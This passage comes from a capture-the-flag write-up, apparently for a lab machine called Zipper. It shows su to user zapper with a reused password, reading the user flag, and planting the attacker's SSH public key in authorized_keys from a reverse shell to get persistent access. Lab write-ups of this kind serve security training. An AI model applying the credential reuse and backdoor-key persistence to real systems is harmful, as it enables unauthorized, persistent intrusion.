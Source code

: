 Okay, that's the second time we've seen that password. Sometimes in these CTF's the password for one thing (like passwording a zip file) is reused. Let's see if we can su to Zapper:
```
su zapper
Password: ZippityDoDah


              Welcome to:
███████╗██╗██████╗ ██████╗ ███████╗██████╗ 
╚══███╔╝██║██╔══██╗██╔══██╗██╔════╝██╔══██╗
  ███╔╝ ██║██████╔╝██████╔╝█████╗  ██████╔╝
 ███╔╝  ██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗
███████╗██║██║     ██║     ███████╗██║  ██║
╚══════╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝

[0] Packages Need To Be Updated
[>] Backups:
4.0K	/backups/zapper_backup-2019-02-25.7z

Phew, let's get user.txt:

zapper@zipper:~$ cat user.txt
cat user.txt
aa29...8fe33
```

Okay, now we need to privesc, but before that let's add an ssh key to the authorized_keys file.
```
kali :: ~/CTFs/zipper # cat id_rsa.pub                                                                                                                        
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBdV/51eYJATacXK143uB/7+cF7XLEKGcjxAdjJYqu/heD+wS/75aBtO864nbhzjYp+ddO7vxQBHckFvKBzp/58/k+UEviOUOpBMuI4s17sXm1TkjlA2bUDZdJLSCD/+24IyELyErvz1fyQngCTfS4y8cJgkai+HsPJtuJml/QJ81e3wim7T/W3fBCyz+w/GffTqBfoIoBhxebf99+5haRUukX1Q7u3a7Oe+6W8zmAxFvJ7jU4oS8DCG5XFUGZBEFOqkbBbs3QrUZ5eTcfvaL12vTE/mIra6FY4TKVdviXvokXuoF1cN7xQqYDvZRc1l8VENFibIRIoB+YCk8t2fMN root@kali
kali :: ~/CTFs/zipper # chmod 0600 id_rsa                                                                   kali :: ~/CTFs/zipper # ssh -i id_rsa 10.10.10.108                                                                                                            
root@10.10.10.108: Permission denied (publickey).

----In our reverse shell:
zapper@zipper:~/.ssh$ echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBdV/51eYJATacXK143uB/7+cF7XLEKGcjxAdjJYqu/heD+wS/75aBtO864nbhzjYp+ddO7vxQBHckFvKBzp/58/k+UEviOUOpBMuI4s17sXm1TkjlA2bUDZdJLSCD/+24IyELyErvz1fyQngCTfS4y8cJgkai+HsPJtuJml/QJ81e3wim7T/W3fBCyz+w/GffTqBfoIoBhxebf99+5haRUukX1Q7u3a7Oe+6W8zmAxFvJ7jU4oS8DCG5XFUGZBEFOqkbBbs3QrUZ5eTcfvaL12vTE/mIra6FY4TKVdviXvokXuoF1cN7xQqYDvZRc1l8VENFibIRIoB+YCk8t2fMN root@kali > authorized_keys
<l8VENFibIRIoB+YCk8t2fMN root@kali > authorized_keys
zapper@zipper:~/.ssh$ cat authorized_keys
cat authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBdV/51eYJATacXK143uB/7+cF7XLEKGcjxAdjJYqu/heD+wS/75aBtO864nbhzjYp+ddO7vxQBHckFvKBzp/58/k+UEviOUOpBMuI4s17sXm1TkjlA2bUDZdJLSCD/+24IyELyErvz1fyQngCTfS4y8cJgkai+HsPJtuJml/QJ81e3wim7T/W3fBCyz+w/GffTqBfoIoBhxebf99+5haRUukX1Q7u3a7Oe+6W8zmAxFvJ7jU4oS8DCG5XFUGZBEFOqkbBbs3QrUZ5eTcfvaL12vTE/mIra6FY4TKVdviXvokXuoF1cN7xQqYDvZRc1l8VENFibIRIoB+YCk8t2fMN root@kali
zapper@zipper:~/.ssh$ 
---Back in Kali
kali :: ~/CTFs/zipper # ssh -i id_rsa zapper@10.10.10.108                                                                                                255 ↵
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-33-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Wed Oct 10 15:28:33 2018

              Welcome to:
```